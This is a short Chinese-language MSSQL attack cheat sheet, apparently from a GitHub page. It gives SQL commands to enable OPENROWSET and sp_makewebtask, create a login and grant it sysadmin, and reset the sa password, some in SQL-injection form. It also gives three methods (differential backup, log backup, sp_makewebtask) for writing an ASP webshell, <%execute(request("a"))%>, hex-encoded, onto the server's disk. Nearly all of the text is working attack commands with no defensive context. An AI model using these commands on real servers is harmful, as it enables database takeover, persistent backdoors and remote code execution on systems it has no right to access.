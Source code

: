OPENROWSET 在 MSSQL 2005 及以上版本中默认是禁用的.

激活 OPENROWSET 的语句：

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Ad Hoc Distributed Queries',1;RECONFIGURE; 
```

### 添加数据库用户

```
exec sp_addlogin 'name' , 'password'
exec sp_addsrvrolemember 'name' , 'sysadmin'       加为数据库管理员 
```

**修改 sa 用户密码**

```
EXEC sp_password NULL,'NewPassword','sa'           (适用于 SQL2000 及以上)
alter login [sa] with password=N'NewPassword'      (适用于 SQL2005 及以上)
;exec master.dbo.sp_password null,username,password;-- 
```

### Get WebShell

差异备份:
创建差异数据库备份需要有以前的完整数据库备份。 如果选定的数据库从未进行过备份，则请在创建任何差异备份之前，先执行完整数据库备份。

#### 方法 1

```
backup database 库名 to disk = 'c:\tmp.bak';create table [dbo].[test_tmp] ([cmd] [image]);insert into  test_tmp(cmd) values(0x3C25657865637574652872657175657374282261222929253E);backup database 库名 to disk='c:\shell.asp' WITH DIFFERENTIAL,FORMAT; 
```

#### 方法 2 (减小体积)

```
alter database web1 set RECOVERY FULL;create table  test_tmp  (a image);backup log web1 to disk = 'c:\cmd' with init;insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);backup log web1 to disk = 'c:\shell.asp'-- 
```

*0x3C25657865637574652872657175657374282261222929253E = <%execute(request("a"))%>

#### sp_makewebtask 备份(需 sa 权限)

```
exec sp_makewebtask 'c:\shell.asp',' select ''<%25execute(request("a"))%25>'' '; 
```

注：sp_makewebtask 存储过程在 MSSQL 2005 及以上版本中默认是禁用的

激活 sp_makewebtask 存储过程的语句:

```
exec sp_configure 'show advanced options', 1;RECONFIGURE;exec sp_configure 'Web Assistant Procedures',1;RECONFIGURE; 
```
